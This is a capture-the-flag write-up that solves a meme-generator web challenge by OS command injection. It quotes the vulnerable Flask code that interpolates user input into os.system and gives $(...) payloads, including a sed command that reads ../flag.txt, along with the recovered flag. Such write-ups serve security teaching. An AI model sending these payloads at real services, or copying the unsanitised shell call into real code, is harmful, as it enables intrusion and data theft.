





# VinUni Meme Generator

Read the source ([vinuni-meme-generator.zip](src)), pwn the web, and retrieve the flag!

Challenge URL: http://ctflag.vhc.asia:52145/

## Techniques

Python, Docker, OS Command Injection

## Solution

The website just prints input text on one of its template images.



But does it really **just** print input text? How about typing `$(ls)`?



It prints out the directory of the source code, if you refer to [this](src/app)! This is an OS Command Injection attack.

The point now is how to inject a command so that it will print out the flag.

Look at the [app.py](src/app/app.py) file. When we click the `Generate` button, it sends a POST request to the backend and does the following.

```python
@app.route('/generate', methods=['POST'])
def upload():
    global clean
    if time.time() - clean > 60:
      os.system("rm static/images/*")
      clean = time.time()
    text = request.form.getlist('text')[0]
    text = text.replace("\"", "")
    filename = "".join(random.choices(chars,k=8)) + ".png"
    os.system(f"python3 generate.py {filename} \"{text}\"")
    return redirect(url_for('static', filename='images/' + filename), code=301)
```

Now open the [generate.py](src/app/generate.py) file where the meme generator does the real work! Look at these two lines.

```python
outfile = sys.argv[1]
text = sys.argv[2]
```

The arguments for the task are given in this line of [app.py](src/app/app.py).

```python
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

The `filename` is randomly generated, while the `text` is given in the input request. This is where we add the OS command payload.

Refer to the `$(ls)` input, Python will construct the following OS command.

```
python3 generate.py randomfilename.png \"$(ls)\"
```

Therefore, we can find the file containing the flag and then print out.

Where is the flag located? Look at the [Dockerfile](src/Dockerfile) and notice.

```docker
COPY app /app
COPY flag.txt /flag.txt
WORKDIR /app
```

When building the Docker container, Docker copies files according to the instructions from the Dockerfile. Notice that the `flag.txt` file is in the parent directory of the `app` folder. Then we can `cat ../flag.txt` to retrieve the flag!

But does it work? Not that easy.



We haven't retrieved the flag yet, although it seems like we are nearly there.

Again, look at the [generate.py](src/app/generate.py) source code, and look at this snippet.

```python
if "VHC" in text: 
  img = Image.open("static/generator/noleak.png") 
  img.save(f"static/images/{outfile}")
else:
  img2 = Image.open('static/generator/VinMeme-Small.png')
  img.paste(img2, (0, 0), img2.convert('RGBA'))
  if len(chunks) > 1:
    img3 = Image.open("static/generator/move.png").convert('RGBA')
    img3.paste(img, (170,42), img.convert('RGBA'))
    img3.save(f"static/images/{outfile}")
  else:
    img.save(f"static/images/{outfile}")

```

If there is a `VHC` keyword in the text input, then it returns a dummy image. 

Obviously, the flag contains `VHC`. Then we only need to replace it with any phrases of our choice. We can use the Stream Editor command `sed` for that.

```
$(sed "s/VHC/ABC/g" ../flag.txt)
```



Yes, we have found the flag, but some parts are put behind the image. Then replace `VHC` with some longer text like this.

```
$(sed "s/VHC/ncejnvccccccdscrrevrekjnrejkvnjkern/g" ../flag.txt)
```



And we have obtained the full flag!

## The Flag

```
VHC2022{f1r5t_t1m3_0s_c0mm4nd_1nj3ct10n_3h}
```